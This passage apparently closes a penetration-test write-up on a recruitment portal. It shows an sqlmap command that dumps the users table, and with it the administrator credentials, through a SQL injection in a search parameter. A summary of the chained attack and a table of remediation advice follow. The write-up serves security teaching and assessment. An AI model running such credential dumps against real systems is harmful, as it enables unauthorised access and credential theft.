

---

### Dumping Credentials

Finally, dump the contents of the `users` table.

```bash
sqlmap -r req.txt -p search -D recruit_db -T users --dump
```

SQLMap automatically extracts the stored credentials, including the administrator account.



These credentials can be used to authenticate to the recruitment portal as the administrator, achieving the same result as the manual enumeration process.

Manual enumeration provides a better understanding of how UNION-based SQL Injection works, whereas SQLMap significantly reduces the time required to enumerate complex databases during real-world engagements.

# Conclusion

This assessment demonstrated how several seemingly low-impact web application weaknesses could be chained together to achieve full administrative access.

The attack began with directory enumeration, which exposed internal application resources. Information disclosed through a publicly accessible log file led to the discovery of valid user credentials via a Local File Inclusion vulnerability. After obtaining initial access, a SQL Injection vulnerability in the application's search functionality enabled the enumeration of the backend database and the recovery of the administrator's credentials.

Although none of the individual findings resulted in immediate compromise, their combination provided a complete attack path to administrative access. This highlights the importance of assessing vulnerabilities collectively rather than in isolation, as multiple weaknesses can often have a far greater impact when chained together.

---

# Remediation Recommendations

The compromise of the recruitment portal was achieved by chaining together several independent weaknesses. Addressing the following findings would significantly reduce the application's attack surface.

| Finding | Recommendation |
|---------|----------------|
| **Information Disclosure** | Avoid exposing log files through the web server and ensure internal directories are inaccessible to unauthorised users. Sensitive operational information should never be publicly accessible. |
| **Local File Inclusion (LFI)** | Validate user-supplied file paths using an allowlist and restrict file access to the intended directory. Avoid accepting arbitrary file paths or URI wrappers such as `file://`. |
| **Credential Storage** | Do not store plaintext credentials in configuration files. Secrets should be managed securely using environment variables or a dedicated secrets management solution. |
| **SQL Injection** | Replace dynamic SQL queries with parameterised queries or prepared statements. Validate user input and disable verbose database error messages in production environments. |
| **Authentication** | Store passwords using a strong password hashing algorithm and enforce robust password policies. Multi-factor authentication should be considered for privileged accounts. |
| **Application Hardening** | Regularly review exposed endpoints, remove unnecessary resources from production environments, and conduct periodic security assessments to identify vulnerabilities before deployment. |

Implementing these recommendations would significantly reduce the likelihood of an attacker progressing from a publicly accessible web application to full administrative access.